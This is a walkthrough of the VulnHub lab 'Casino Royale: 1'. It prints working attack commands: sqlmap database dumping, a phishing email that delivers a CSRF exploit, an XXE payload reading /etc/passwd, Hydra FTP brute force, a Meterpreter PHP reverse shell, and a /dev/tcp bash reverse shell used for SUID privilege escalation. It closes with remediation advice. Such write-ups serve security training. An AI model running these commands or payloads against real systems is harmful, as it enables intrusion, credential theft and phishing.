




# Casino Royale: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.102 (host-only) |
| **Difficulty** | Hard |
| **OS** | Linux |
| **Credentials** | admin:raise12million (PokerMax), valenka:11archives11! (system), ftpUserULTRA:bankbank (FTP) |
| **Root Flag** | /root/flag/flag.sh (screenshot only) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/casino-royale-1,287/) |

## Attack Summary

PokerMax SQLi (admin) → Snowfox CMS (casino-royale.local) → CSRF exploit (EDB-35301) → SMTP trigger → XXE reads /etc/passwd → FTP brute (Hydra) → PHP5 webshell → valenka:11archives11! → SUID mi6_detect_test → writable run.sh → root

## Methodology

1. PokerMax admin via SQLmap
2. Virtual host discovery (casino-royale.local)
3. Snowfox CSRF to create admin user
4. SMTP phishing to trigger victim
5. XXE injection to read /etc/passwd and find FTP user
6. FTP brute force + PHP webshell upload
7. DB config credentials → su valenka
8. SUID binary + writable run.sh in /tmp → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -sV -p- 192.168.1.102
# Ports: 80/HTTP, 25/SMTP
```



---

## Step 2: PokerMax SQL Injection

```bash
dirb http://192.168.1.102/
# Finds: index.php
# Source references PokerMax CMS
searchsploit poker
# EDB-6766 → admin panel at /pokeradmin/
```

Dump database:

```bash
sqlmap -u http://192.168.1.102/pokeradmin/index.php \
  --forms --risk 3 --level 5 --dbs --batch
sqlmap -u http://192.168.1.102/pokeradmin/index.php \
  --forms --risk 3 --level 5 -D pokerleague --dump-all --batch
# admin : raise12million
```

Log in to `/pokeradmin/`. Edit player **Valenka** → reveals directory and domain `casino-royale.local`.



---

## Step 3: Virtual Host + Snowfox CSRF

```bash
echo "192.168.1.102  casino-royale.local" >> /etc/hosts
```

Browse the directory found in Valenka's profile → **Snowfox CMS**.

```bash
searchsploit snowfox
searchsploit -m 35301
# Edit raj.html: set new admin credentials
cp raj.html /var/www/html/
service apache2 start
```

---

## Step 4: SMTP Social Engineering

Send the exploit link to Valenka via SMTP:

```
telnet casino-royale.local 25
HELO attacker
MAIL FROM: <attacker@attacker.com>
RCPT TO: <valenka@casino-royale.local>
DATA
Subject: Check this link

http://192.168.1.107/raj.html

.
QUIT
```

Monitor Apache log for the victim request:

```bash
tail -f /var/log/apache2/access.log
```

Log in to `casino-royale.local/vip-client-portfolios/?uri=signin` with credentials from raj.html. Find second directory in player **le@casino-royale.local** profile.

---

## Step 5: XXE Injection

The `/ultra-access-view/main.php` endpoint is vulnerable to XXE:

```bash
cat > /tmp/xml.txt << 'EOF'
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
EOF
curl -d @/tmp/xml.txt http://casino-royale.local/ultra-access-view/main.php
```

Response includes `/etc/passwd`, revealing FTP user: **ftpUserULTRA**



---

## Step 6: FTP Brute + PHP5 Webshell

```bash
hydra -l ftpUserULTRA -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.102
# ftpUserULTRA : bankbank
```

Generate PHP Meterpreter payload (server allows only .php5):

```bash
msfvenom -p php/meterpreter/reverse_tcp \
  lhost=192.168.1.107 lport=443 -f raw > shell.php5
```

Upload via FTP:

```bash
ftp 192.168.1.102
# user: ftpUserULTRA  pass: bankbank
put shell.php5
chmod 777 shell.php5
```

Start handler and trigger:

```bash
msfconsole -q -x "use multi/handler; set payload php/meterpreter/reverse_tcp; set lhost 192.168.1.107; set lport 443; exploit"
curl http://casino-royale.local/<ftp_dir>/shell.php5
```

---

## Step 7: Lateral Movement (valenka)

```bash
cat config.php
# DB_USER=valenka, DB_PASS=11archives11!
su valenka
# password: 11archives11!
```

---

## Step 8: SUID Binary → Root

```bash
find / -perm -4000 2>/dev/null
# /opt/casino-royale/mi6_detect_test (SUID root)
```



The binary calls `run.sh` in `/opt/casino-royale/`, which doesn't exist. Create a reverse shell payload instead:

```bash
# On attacker:
cat > /tmp/run.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.107/1234 0>&1
EOF
python3 -m http.server 8000

# On target (as valenka):
cd /tmp
wget http://192.168.1.107:8000/run.sh
chmod +x run.sh
```

Start listener: `nc -lvnp 1234`

```bash
/opt/casino-royale/mi6_detect_test
# Shell returns as root
id
# uid=0(root)
cat /root/flag/flag.sh
```


---

## Lessons Learned

1. **SQLi in admin panel** — CMS login forms without parameterised queries allow full DB dump
2. **XXE in XML endpoints** — validate and disable external entity resolution; use safe XML parsers
3. **FTP with weak password** — require strong credentials; disable FTP, use SFTP
4. **SUID calling relative paths** — always use absolute paths in SUID binaries; validate that helper scripts exist
5. **CSRF + SMTP phishing** — CSRF tokens alone don't prevent client-side attack delivery via email

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| PokerMax SQLi | Parameterise all queries |
| Snowfox CSRF | Implement CSRF tokens and SameSite cookies |
| XXE in main.php | Disable external entities in XML parser (LIBXML_NOENT off) |
| FTP weak password | Enforce strong credentials, prefer SFTP |
| SUID relative path call | Use absolute paths, validate script presence |
| DB credentials in config.php | Use environment variables, restrict file permissions |
